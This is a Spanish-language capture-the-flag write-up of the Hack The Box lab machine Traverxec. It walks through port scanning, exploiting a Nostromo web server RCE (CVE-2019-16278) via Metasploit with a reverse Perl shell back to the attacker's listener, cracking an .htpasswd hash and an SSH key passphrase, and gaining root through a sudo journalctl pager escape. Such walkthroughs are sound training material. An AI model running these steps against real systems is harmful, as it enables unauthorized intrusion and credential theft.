








Hack The Box - Traverxec (Active)

Contenido
- Contenido protegido por contraseña.
- Para desbloquear el contenido debes Ingresar la flag
root.txtde la maquina.
| Nombre | Traverxec |
|---|---|
| OS | Linux |
| Puntos | 20 |
| Dificultad | Facil |
| IP | 10.10.10.165 |
| Maker | jkr |
MASSCAN & NMAP
Escaneo de puertos tcp/udp, nmap y masscan nos muestran el puerto http (80) y el puerto ssh (22) abiertos.
root@aoiri:~/htb/traverxec# masscan -p1-65535,U:1-65535 10.10.10.165 --rate=1000 -e tun0
Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2019-12-30 05:12:44 GMT
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.10.165
Discovered open port 80/tcp on 10.10.10.165
# Nmap 7.80 scan initiated Sun Dec 29 23:09:53 2019 as: nmap -p- --min-rate 1000 -o nmap_scan 10.10.10.165
Nmap scan report for 10.10.10.165
Host is up (0.28s latency).
Not shown: 65533 filtered ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
# Nmap done at Sun Dec 29 23:12:05 2019 -- 1 IP address (1 host up) scanned in 132.10 seconds
# Nmap 7.80 scan initiated Sun Dec 29 23:12:40 2019 as: nmap -sV -sC -p22,80 -o nmap_scan_pr 10.10.10.165
Nmap scan report for 10.10.10.165
Host is up (0.080s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
| 2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
| 256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_ 256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open http nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 29 23:13:00 2019 -- 1 IP address (1 host up) scanned in 19.96 seconds
HTTP - Puerto 80
Nos muestra una pagina web de una persona.

GOBUSTER
Utilizamos gobuster para busqueda de directorios y archivos que nos pudiesen servir.
root@aoiri:~/htb/traverxec# gobuster dir -u http://10.10.10.165/ -w /usr/share/wordlists/dirb/common.txt -x html,txt,php -t 15 -q
/css (Status: 301)
/empty.html (Status: 200)
/icons (Status: 301)
/img (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/js (Status: 301)
/lib (Status: 301)
/Readme.txt (Status: 200)
WHATWEB
Utilizamos esta herramienta para concoer que tipo de webserver esta corriendo en el puerto 80. 
NOSTROMO - RCE
Buscamos si existe una vulnerabilidad para este webserver encontramose una y es del tipo RCE (cve-2019-16278). Utilizamos metasploit para configurarlo, obtenemos una shell con el usuario www-data.
msf5 > use exploit/multi/http/nostromo_code_exec
msf5 exploit(multi/http/nostromo_code_exec) > show options
Module options (exploit/multi/http/nostromo_code_exec):
Name Current Setting Required Description
---- --------------- -------- -----------
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 80 yes The target port (TCP)
SRVHOST 0.0.0.0 yes The local host to listen on. This must be an address on the local machine or 0.0.0.0
SRVPORT 8080 yes The local port to listen on.
SSL false no Negotiate SSL/TLS for outgoing connections
SSLCert no Path to a custom SSL certificate (default is randomly generated)
URIPATH no The URI to use for this exploit (default is random)
VHOST no HTTP server virtual host
Payload options (cmd/unix/reverse_perl):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic (Unix In-Memory)
msf5 exploit(multi/http/nostromo_code_exec) > set rhosts 10.10.10.165
rhosts => 10.10.10.165
msf5 exploit(multi/http/nostromo_code_exec) > set lhost tun0
lhost => 10.10.14.67
msf5 exploit(multi/http/nostromo_code_exec) > show options
Module options (exploit/multi/http/nostromo_code_exec):
Name Current Setting Required Description
---- --------------- -------- -----------
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS 10.10.10.165 yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 80 yes The target port (TCP)
SRVHOST 0.0.0.0 yes The local host to listen on. This must be an address on the local machine or 0.0.0.0
SRVPORT 8080 yes The local port to listen on.
SSL false no Negotiate SSL/TLS for outgoing connections
SSLCert no Path to a custom SSL certificate (default is randomly generated)
URIPATH no The URI to use for this exploit (default is random)
VHOST no HTTP server virtual host
Payload options (cmd/unix/reverse_perl):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST 10.10.14.67 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic (Unix In-Memory)
msf5 exploit(multi/http/nostromo_code_exec) > run

USER - David
Realizamos una enumeracion de los directorios en la maquina encontramos un archivo (.httpasswd) en el directorio de nostromo que contiene una contraseña encriptada en md5crypt.

Desencriptamos la contraseña con john pero al intentar utilizarla en ssh no funcionó.
John: 
SSH: 
En el mismo directorio encontramos un archivo de configuracion de nostromo en el que esta definido ciertos parametros para el webserver.
nhttpd.conf 
Segun la documentacion, los parametros definidos con homedirs son las carpetas de usuarios que pueden ser accedidos a traves de HTTP utilizando ~nombreUsuario en la url.
# HOMEDIRS [OPTIONAL]
homedirs /home
homedirs_public public_www

En el caso de nuestra maquina podemos acceder a la carpeta del usuario david con ~david.

Como podemos observar podemos acceder a la carpeta del usuario david, más no por medio de una shell ya que no tenemos los permisos suficientes, de igual forma existe otro parametro homedirs_public esta carpeta definida esta dentro de la carpeta de homedirs definida anteriormente, por lo que podemos acceder a esta desde nuestro navegador y desde nuestra shell.

Vemos que hay un backup de ssh, accedemos desde nuestro navegador a la carpeta /~david/protected-file-area/, nos pedira una contraseña y un usuario, utilizamos las credenciales crackeadas anteriormente y podemos ver y descargar el archivo.

Utilizamos la clave privada para iniciar sesion, pero esta, esta protegida encriptada, utilizamos ssh2john para obtener el hash y crackear la frase, luego de esto usamos la frase con el usuario david y la llave privada atraves de ssh y obtenemos nuestra flag user.txt.

PRIVILEGE ESCALATION
Dentro de la carpeta de David encontramos un archivo bash que ejecuta ciertos binarios o comandos del sistema, pero vemos que journalctl es ejecutado junto a sudo y cat. Intentamos enumerar los ficheros que pueden ser ejecutados junto a sudo con el usuario David pero no tenemosla contraseña de este.
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
Para obtener una shell, ejecutamos sudo con journalctl tal y como se ejecuta en el archivo bash, luego de eso escribimos !/bin/sh y obtenemos shell con usuario root y nuestra flag root.txt.

Segun Gtfobins al ejecutar journalctl, este, ejecuta lo que parece ser less, por lo que pudimos abrir una shell con el comando !/bin/sh.